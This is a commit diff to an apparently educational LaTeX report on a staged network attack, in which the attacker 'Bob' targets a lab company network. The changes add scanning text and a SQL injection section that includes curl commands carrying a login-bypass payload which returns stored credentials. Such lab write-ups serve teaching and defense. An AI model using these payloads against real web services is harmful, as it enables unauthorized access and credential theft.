

Before and after one commit to Tony177/NetworkSecurity-Project, a LaTeX book (Doc/main.tex): two parts of pages 4 and 8 of 9 before the commit and two parts of pages 5 and 9 of 10 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. The pictures show the PDF file Doc/main.pdf that the author committed with the source.

Commit message:
Updated Introduction and Exploiting: Sql injection

```diff
--- a/Doc/main.tex
+++ b/Doc/main.tex
@@ -58,0 +79,4 @@ top=    1 in
+\section{Network Configuration}
+\begin{center}
+\includegraphics[scale=1]{../Image/network.PNG}
+\end{center}
@@ -59,3 +89,11 @@ top=    1 in
+\begin{itemize}
+  \item BobPC: it represents the attacker host.
+  \item TomPC: it represents the target host.
+\end{itemize}
+Company Network: it connects all the employees to the company web service.
+
+
+
 \chapter{Footprinting}
 The footprinting phase involves gathering information in the network regarding the target, in our case the organization and its members.
 \newline In this scenario, the attacker already knows information regarding the company and has managed to connect to the target local network.
@@ -65,27 +103,26 @@ The footprinting phase involves gathering information in the network regarding t
 \begin{center}
 \includegraphics[scale=1]{../Image/footprinting_company_network.png}
 \end{center}
-\begin{lstlisting}
-  nmap -sn -PE --send-ip 193.20.3.0/24
-\end{lstlisting}
 \begin{center}
 \includegraphics[scale=0.76]{../Image/footprinting_employee_network.png}
 \end{center}
 From the top scan of the IP range 193.20.3.0/24, Bob found out one host up at 193.20.3.1 and its MAC Address. On the other subnet 193.20.1.0/24, there is another host up with the address 193.20.1.2.
 
-\newpage
 \chapter{Scanning}
-In this phase, the attacker explore the entire network perimeter by sending probe packets to endpoints with the goal of identify potential access points in the company systems.
-Nmap (Network Mapper) is a versatile and powerful tool with a range of options and features. Here are some of the main options:
+In this phase, the attacker explores the entire network perimeter to gather information about
+the target network in order to identify potential vulnerabilities and weak points that can be exploited.
+\newline The scanning phase typically involves a combination of active and passive scanning methods. Active scanning involves
+sending probe packets or requests to target systems to elicit a response, while passive scanning involves observing and analyzing network traffic without actually engaging with the target systems.
+This is typically done using various scanning tools and techniques, including \textbf{\textit{Nmap}}: Network Mapper, a versatile and powerful tool with a range of options and features.
+Here are some of the main options:
 \begin{itemize}
   \item Host Discovery: This option is used to discover hosts on a network. Nmap can identify active hosts, as well as those that are currently offline.
   \item Port Scanning: Port scanning is one of the most popular features of Nmap. It can be used to identify open ports on a target system, and even detect hidden ports and services.
   \item Service and Version Detection: This option is used to identify the services and versions of software running on the target system. This information can be useful in identifying vulnerabilities and weaknesses.
   \item Operating System Detection: Nmap can also be used to identify the operating system running on the target system. This information can be helpful in identifying potential attack vectors.
   \item Scripting Engine: Nmap has a powerful scripting engine that allows users to write and execute custom scripts. This feature can be used to automate tasks, customize scans, and extend the functionality of Nmap.
-  \item Output Formats: Nmap can generate output in various formats, including XML, HTML, and plain text. This feature can be helpful in generating reports, analyzing results, and sharing information with others.
 \end{itemize}
-These are just a few of the main options available in Nmap. Other features include traceroute, firewall detection, and performance tuning options. Nmap is a highly flexible tool that can be customized to suit the needs of the user.
+These are just a few of the main options available in Nmap. Other features include traceroute, firewall detection, and performance tuning options.
 It has a number of flags or options that can be used to customize and fine-tune its scanning behavior.
 \newline Here are some commonly used flag options:
 \begin{itemize}
@@ -122,16 +157,46 @@ The attacker grabs information about the Web Server: it is implemented with Node
 \includegraphics[scale=0.76]{../Image/enumeration_tom_sv.PNG}
 \end{center}
 On the other host, nmap determines that: the ssh service is implemented with a specific version of OpenSSH and the OS family is Ubuntu Linux.
+\newline With the tool \textit{curl} or \textit{wget}, the attacker can get information about the website pages. In a real case scenario, it is better to map the entire site with \textit{Dirbuster} or an analogous tool.
+\begin{center}
+  \includegraphics[scale=0.66]{../Image/webserver_curl.PNG}
+\end{center}
+From the last command, the attacker Bob discovers a login page that may be exploited.
+Once vulnerabilities are identified, the attacker can move on to the next phase of the attack, the exploitation phase.
 
 \chapter{Exploitation}
-After discovering the potential access points on the hosts, it is necessary to reveal other information regarding the active services on the detected ports. In the enumeration phase,
-active connections are created towards the target services by using the nmap tool with appropriate flags. This phase is more dangerous and traceable than the previous techniques because it requires an higher level of intrusiveness.
-\newline The objective of this phase is the service fingerprinting, i.e. the detection of the specific version and implementation of the service through an analysis of the service behaviour.
-\newline The attacker uses the nmap flag -sV, which compares answers obtained with a service fingerprint database, to determine services version on the Web Server:
+The exploitation phase has the objective of gaining access to the target system and obtaining privileged information, such as usernames, passwords, and other sensitive data.
+Attackers may use various methods to exploit vulnerabilities in the target system, including:
+\begin{enumerate}
+  \item Social engineering: Attackers may use social tactics to trick users into revealing sensitive information or clicking on malicious links that can install malware or grant unauthorized access to the target system.
+  \item Malware: Attackers may use malware, such as viruses, Trojans, or worms, to exploit vulnerabilities in the target system and gain unauthorized access.
+  \item Remote exploits: Attackers may use remote exploits to take advantage of vulnerabilities in network protocols or services, such as TCP/IP or HTTP, to gain unauthorized access to the target system.
+  \item Exploit kits: Attackers may use exploit kits, which are pre-packaged sets of tools and exploits, to automate the process of finding and exploiting vulnerabilities in the target system.
+\end{enumerate}
+
+In this case, the attacker Bob uses a mix of remote exploits to gain root access on the Employee PC.
+
+\section{Sql Injection}
+The attacker starts from the company web service by filling the login form with different combinations:
+
+\begin{lstlisting}[style=DOS]
+curl -X POST -d 'username=a&password=b' 193.20.3.1:8080
+\end{lstlisting}
+In this case, the website uses an url-encoded form, so the attacker can send the data as an url-encoded string. This one returns "Error value(s) missing".
+\newline The attacker tries to tamper the form with another combination:
+\begin{lstlisting}[style=DOS]
+  curl -X POST -d 'username=&password=b' 193.20.3.1:8080
+\end{lstlisting}
+which returns:
+\begin{lstlisting}[style=DOS]
+  {"success":false,"response":"No user found","result":[]}
+\end{lstlisting}
+Lastly, the attacker can try to insert a payload with a MySQL Injection, that uses OR and the commenting syntax:
+\begin{lstlisting}[style=DOS]
+  curl -X POST -d 'username=" OR 1<2; -- &password=b' \
+  193.20.3.1:8080
+\end{lstlisting}
+which returns a list of credentials:
 \begin{center}
-\includegraphics[scale=0.76]{../Image/enumeration_company_sv.PNG}
+  \includegraphics[scale=0.5]{../Image/webserver_sql.PNG}
 \end{center}
-The attacker grabs information about the Web Server: it is implemented with NodeJS and has a connection with a mySQL Database. Then, he does the same for the Employee computer:
-\begin{center}
-\includegraphics[scale=0.76]{../Image/enumeration_tom_sv.PNG}
-\end{center}
```
Also changed, not shown: Doc/main.pdf, Image/network.PNG (added), Doc/main.tex (40 more changed lines).
